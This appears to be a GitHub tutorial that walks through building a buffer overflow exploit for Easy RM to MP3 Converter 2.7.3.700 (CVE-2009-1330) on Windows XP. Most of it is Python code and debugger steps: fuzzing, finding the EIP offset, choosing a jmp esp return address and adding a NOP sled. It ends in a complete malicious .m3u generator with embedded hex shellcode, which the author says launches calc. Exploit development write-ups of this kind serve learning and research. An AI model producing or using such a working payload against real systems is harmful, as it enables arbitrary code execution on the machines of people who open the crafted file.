 # Easy RM to MP3 Converter 2.7.3.700 (.m3u) File WinXP Sp2 Buffer Overflow Exploit

-   cve details: [CVE-2009-1330](https://www.cvedetails.com/cve/CVE-2009-1330/)
-   Target: Easy RM to MP3 Converter 2.7.3.700
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

I opened target program and checked its. I understood the program takes input from user in file types like: ra, m3u, pl, ... . For load file use Load button. For check program vulnerability I made a python file :

```source-shell
    exploit='A'*5000
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close() 
```
    
After load exploit.m3u, program handle its:

![](/images/1.JPG)

I add more "A" and again check it:

```source-shell
    exploit='A'*5000
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```
Program closed witout show error and .... . I understood target maybe vulnerability.I started develop a exploit for it. I want show calce.

I run Immunity Debugger and attached target to debugger. I need find EIP and for it, I need find how many "A" input to target.I used Mona for create pattern :

![](/images/2.JPG)

Mona create pattern file in this path: Immunity Debugger path/pattern.txt . Open it and copy ASCII section to new file like exploit.m3u . Now I load this file to target that attached in Immunity. Target is closed,and now I go to Immunity and copy EIP and with Mona command (!mona po 78533778) , I find exactlly location.

![](/images/3.JPG)

Now I know number "A" (14752) and for check it , I change my exploit to below. If EIP show 42424242 ,location is true :

```source-shell
    exploit='A'*14752 + "B"*4
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```

After load, I show program handle it and the location found by Mona was incorrect. 

![](/images/4.JPG)

I using manully approch, change number of "A" to find location. afte check some number , I find 26064. So my exploit changed to :

```source-shell
    exploit='A'*26064 + "B"*4
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```

![](/images/5.JPG)

Now I need added my shellcode and find my shellcode's location and pass it to EIP. I change my exploit to this:

```source-shell
    exploit='A'*26064 + "B"*4 + "C"*100
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```

![](/images/6.JPG)

I load file in target and check it in Immunity. I see my shellcode load in Stack and I only need find a command point to stack like "jmp esp" ,also I see a jump occur and 4"C" does not run, so if I add shellcode to this,My shellcode not execute. For solved first problem , I load program in Immunity and RightClick>Search for > All commands in All modules and so type jmp esp and select a result :

![](/images/7.JPG)

I select this address (7c9d30d7). I add this address (reverse) to exploit and so add shellcode :


```source-shell
    exploit= "A" * 26064 + "\xD7\x30\x9D\x7C" +(
    "\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
"\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
"\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
"\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
"\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
"\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
"\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
"\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
"\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
"\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
"\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
"\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
"\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
"\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
"\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
"\xf3\x07")
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```

And finally for solved second problem,I use NOP sed. my exploit in final mode:

```source-shell
exploit= "A" * 26064 + "\xD7\x30\x9D\x7C"+ "\x90"*8 +(
    "\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
    "\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
    "\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
    "\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
    "\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
    "\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
    "\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
    "\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
    "\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
    "\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
    "\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
    "\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
    "\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
    "\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
    "\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
    "\xf3\x07")
    
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
    ```


![](/images/8.JPG)



